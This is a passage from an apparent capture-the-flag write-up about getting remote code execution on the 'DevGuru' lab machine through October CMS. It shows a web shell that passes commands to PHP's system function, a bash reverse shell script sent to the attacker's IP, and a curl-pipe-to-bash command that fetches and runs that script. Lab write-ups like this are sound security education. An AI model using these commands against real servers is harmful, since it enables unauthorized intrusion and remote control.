 
## Exploitation
### Remote Code Execution

We can abuse of October CMS feature to run PHP code and execute system commands, below I created a new page that allow me pass the commands as parameters to the system function.

![](/assets/images/devguru/screenshot-11.png)

The id command was executed.

```console
root@kali:~$ curl -s http://devguru.local/shell?cmd=id                               
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

I wrote a bash reverse shell in the shell.sh file and started a web server on port 80.

```console
root@kali:~$ echo '/bin/bash -c "bash -i >& /dev/tcp/192.168.179.1/443 0>&1"' > shell.sh

root@kali:~$ python3 -m http.server 80
```

Start a netcat listener and run the following curl instruction.

```console
root@kali:~$ curl -s http://devguru.local/shell?cmd=$(php -r "echo urlencode('curl 192.168.179.1/shell.sh | bash');")
```
